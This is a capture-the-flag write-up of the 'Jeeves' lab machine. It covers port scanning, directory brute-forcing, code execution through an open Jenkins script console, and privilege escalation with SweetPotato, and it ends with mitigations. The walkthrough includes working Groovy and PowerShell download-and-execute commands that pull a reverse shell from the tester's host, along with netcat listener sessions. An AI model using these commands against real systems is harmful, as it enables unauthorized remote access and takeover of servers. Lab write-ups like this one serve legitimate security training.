 
# Jeeves
- Introduction
- Summary
- Walkthrough
- Mitigrations
- References

## Introduction

The Jeeves box gives two fun ways to get a low level shell and escalate privileges in ways that come up often in different forms.  

## Summary 

The target host was locked down well with the major acception of a service that was unsecured and allowed the tester to run malicious code on the server leading to access to the server. This issue can be remided by enabling access controls. The final issue is one that may remain unchanged dependant on needs.

## Jeeves

The tester starteed with an nmap scan to enumerate the hosts services.

```
└──╼ [★]$ nmap -sC -sV -p 80,135,445,50000 10.10.10.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-12 12:35 GMT
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-12T17:35:46
|_  start_date: 2023-12-12T17:34:14
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m56s, deviation: 0s, median: 4h59m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.88 seconds

```

The scan showed that a web service was running on port 50000. The tester used ffuf to bruteforce the directories. 

```
└──╼ [★]$ ffuf -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'  -u http://10.10.10.63:50000/FUZZ -e .txt,.asp,.aspx,.config,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .asp .aspx .config .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
    * FUZZ: askjeeves

:: Progress: [1245858/1245858] :: Job [1/1] :: 970 req/sec :: Duration: [0:23:13] :: Errors: 0 ::

```

The ffuf tool found the "askjeeves" endpoint. This showned that the host is running the jenkins service. Jenkins has a script console that allows user to run "groovy" scripts on the server. The tester used the following script to test code execution:

```
def process = "whoami".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

Which returned:

```
Result

Output: jeeves\kohsuke
Exit code: 0
```

The tester next started a shell on the host by downloading and invoking [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) powershell script. The tester set up a HTTP server using python and a Netcat listener. Then used the below script to download and run the shell.

```
def process = "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6:8083/Invoke-PowerShellTcp.ps1')".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8084
listening on [any] 8084 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49680
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>hostname
Jeeves
PS C:\Users\Administrator\.jenkins> whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins> 
```

This gave access to the host with the "kohsuke" account. The tester checked the account privileges and found that the account had the SeImpersonatePrivilege privilege. This privilege allows a user to imperonate process tokens.

```
PS C:\Users\Administrator\.jenkins> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\Administrator\.jenkins> 
```

The tester used the "sweetpotato.exe" binary to exploit this vulnerability and get system. The tester used another HTTP server to download the binary.

```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
```

```
┌──(kali㉿kali)-[~/…/tools/priv_esc/windows/binaries]
└─$ python -m http.server 8080                                
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.63 - - [23/Dec/2023 18:03:34] code 404, message File not found
10.10.10.63 - - [23/Dec/2023 18:03:34] "GET /sweetpotato.exe HTTP/1.1" 404 -
10.10.10.63 - - [23/Dec/2023 18:03:56] "GET /SweetPotato.exe HTTP/1.1" 200 -
```

Once the binary had been downloaded the tester tested the exploit by running the "whoami" command, which returned the system account. The tester used this process to get a system shell. 

```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
PS C:\users\public\music> ./sweetpotato.exe -a whoami
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Jeeves/pipe/1b14b892-4acd-461d-8f4d-30d7665e1b02
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c whoami 
[+] process with pid: 3212 created.

=====================================

nt authority\system


[+] Process created, enjoy!
PS C:\users\public\music> 

```
The tester used the download and invoke command using the exploit binary to start a system reverse shell.
```
PS C:\users\public\music> ./sweetpotato.exe -a "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8080/Invoke-PowerShellTcp.ps1')"  
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8085        
listening on [any] 8085 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49688
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
Jeeves
PS C:\Windows\system32> 
```

## Mitigations 

- Enable access controls for the jenkins service.
- Remove Jenkins access from the frontend if possible.
- Review account privileges.

## References

https://www.jenkins.io/doc/book/security/access-control/
https://www.jenkins.io/doc/book/security/securing-jenkins/
https://github.com/uknowsec/SweetPotato
https://github.com/samratashok/nishang

